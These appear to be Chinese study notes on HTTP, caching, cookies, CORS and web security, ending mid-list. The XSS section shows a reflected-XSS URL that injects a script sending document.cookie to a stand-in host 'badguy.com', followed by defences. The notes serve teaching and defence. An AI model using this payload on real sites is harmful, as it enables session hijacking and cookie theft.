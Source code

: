

# http
- 网络通讯协议

### 客户端user-agent
- 可以为用户发起网络请求的工具，大部分由浏览器扮演

### web服务器
- 请求的另一端，可以是一个服务器组成的集群，也可以是一个向其他计算机请求的软件

### proxy
- 请求中，在应用层转发了http信息的程序，我们叫做代理，表现的功能有
- 缓存，过滤，负载均衡，权限控制，登录存储历史信息

### http性质
-  1.  简单，可添加
-  2.  http无状态，有会话
-  3.  两次请求没有必然联系（除非加入cookies，创建一个会话共享上下文信息）

### 浏览器缓存
- 适用于：定期或者频繁更新的资源
- 客户端和浏览器端规约一个缓存时间
- 利用cache-control，expires，last-modified等计算过期时间

### 资源加速
- 适用于：长期不更新，但是一旦更新就希望尽快上线
- 使用时在文件名后面加上一个版本号，或者hash，时间戳等等

### cookies
- cookies使http记录状态变成了可能，主要作用：
- 会话状态管理
- 个性化设置
- 浏览器行为跟踪

### 创建cookies
```js
response.setHeader('Set-Cookie', ['type=ninja', 'language=javascript']);
```
- 创建cookie后，对该服务器的每一次请求，浏览器都会将之前保存的cookie发送给服务器

### 会话期cookie
- 不需要指定过期时间和有效期

### 持久cookie
- 可以指定一个有效期和有效时间

### Secure; HttpOnly
- 这样设置了，cookie就无法被客户端js所调用

### cookie的作用域
- 通过domain和path来指定主机名和url路径

### js访问cookie
```js
document.cookie = 'tastyCookie=strawberry'
```








## 安全问题

### 会话劫持和XSS
XSS攻击就是攻击者在网页中嵌入恶意脚本，前提是盗取cookie

那么如何嵌入脚本呢：
- Reflected
  <%Reequest.QueryString("term")%>
  在http://victim.com/search.asp后面附上
  http://victim.com/search.asp?term=<script>window.open("http://badguy.com?cookie="+document.cookie)</script>

防止方法：
- 设置httpOnly，防止cookie被盗取
- 加入ip或者user-agent进行对比
- web app

### 跨站请求伪造CSRF
当用户登录A网站后，钓鱼网站通过诱导用户点击图片链接，来想A网站发送请求。
由于用户已经登录A，cookie等信息随着请求过去，后台无法分辨
CSRF攻击就是提用户发起请求，前提是不知道cookie

防止方法：
- 通过token来校验用户提交
- 修改删除都通过post请求
- 不要暴露用户隐私信息



## CORS跨域资源共享
> 跨域拦截不一定是浏览器限制了网络请求，也可能是请求成功，返回参数被浏览器拦截了

## 简单请求
- 请求类型
    GET; POST; HEAD

- 规定了只能设置部分字段
    Accept
    Accept-Language
    Content-Type 

- Content-Type类型
    text/plain
    multipart/form-data
    application/x-www-form-urldecoded

这种简单请求和浏览器发出的请求一样，如果服务器没返回正确的响应首部，则不会受到任何请求
比如 http://foo.wxample 想要访问 http://ba.other 的资源

这样执行的代码：
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resources/public-data'

function callOtherDomain() {
    if(invocation) {
      invocation.open('GET', url, true);
      invocation.onreadystatechange = handler
      invocation.send()
    }
}
```

执行的时候，只要后台允许就能够跨域
客户端和服务器之间使用CROS来处理跨域权限
- 使用 Origin 和 Access-Control-Allow-Origin 就能完成最简单的访问控制


## 需预检的请求
需要预检的请求，在发起之前会先发送一个OPTIONS请求

- 请求类型
    PUT
    DELETE
    CONNECT
    OPTIONS
    TRACE
    PATCH

- 再就是设置了简单请求之外字段和取值的

这样执行的代码：
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resource/post-here'
var body = {
  name: 'fyi'
}

function callOtherDomain() {
  if(invocation) {
    invocation.open('POST', url, true)
    invocation.setRequestHeader('Content-Type', 'application/json')
    invocation.onreadystatechange = handler;
    invocation.send(body)
  }
}
```

执行的时候，先发送一个OPTIONS进行预检
OPTIONS是HTTP/1.1中的方法，用于从服务器获取更多信息



## 附带身份凭证的请求
跨域请求时，将cookies跨域发送
客户端要设置 withCredentials / true
服务器端要设置 Access-Control-Allow-Credentials: true
缺一不可，如果服务器没有设置的话，浏览器也不会把返回参数反馈给请求者
```js
var invocation = new XMLHttpRequest()
var url = 'http://bar.other/resources/public-data'

function callOtherDomain() {
    if(invocation) {
      invocation.open('GET', url, true);
      invocation.withCredentials = true
      invocation.onreadystatechange = handler
      invocation.send()
    }
}
```

- 请求类型
    GET; POST; HEAD

## HTTP响应首部字段

- Access-Control-Allow-Origin
    指定了允许访问该资源的外部的URL

- 规定了只能设置部分字段
    Accept
    Accept-Language
    Content-Type 

- Content-Type类型
    text/plain
    multipart/form-data
    application/x-www-form-urldecoded

- Access-Control-Expose-Headers
  设置浏览器能够访问到的HTTP首部字段信息

- Access-Control-Max-Age
  表示预检请求能够被缓存多少秒

- Access-Control-Allow-Credential
  